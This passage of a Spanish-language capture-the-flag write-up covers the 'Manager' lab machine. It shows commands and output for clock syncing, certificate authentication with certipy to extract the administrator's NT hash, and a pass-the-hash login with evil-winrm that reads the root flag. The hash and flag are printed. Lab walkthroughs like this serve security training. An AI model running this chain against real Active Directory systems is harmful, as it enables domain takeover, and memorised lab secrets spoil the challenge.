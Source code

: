 Con la herramienta rdate, se puede sincronizar el sistema a este servidor.

```jsx
┌──(angussmoody㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─$ sudo rdate -n 10.10.11.236
[sudo] password for angussmoody: 
Tue Mar  5 03:32:02 -05 2024

```

Al ejecutar nuevamente el comando, ahora se obtiene el hash NTLM del usuario "administrator". Con este hash, se pueden llevar a cabo diversas consultas y ataques.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/certipy]
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

Para esta máquina, se procederá a conectarse utilizando la herramienta  [evil-winrm](https://github.com/Hackplayers/evil-winrm){:target="_blank"} para obtener una shell y así poder acceder a la segunda flag de administrador. 

```jsx
┌──(root㉿angussMoody)-[/home/angussmoody]
└─# evil-winrm -i 10.10.11.236 -u administrator -H 'ae5064c2f62317332c88629e025924ef'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         3/4/2024  11:45 PM             34 root.txt

c*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
9af0ce63a1fb1a12cda05dd2aa1bc450
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```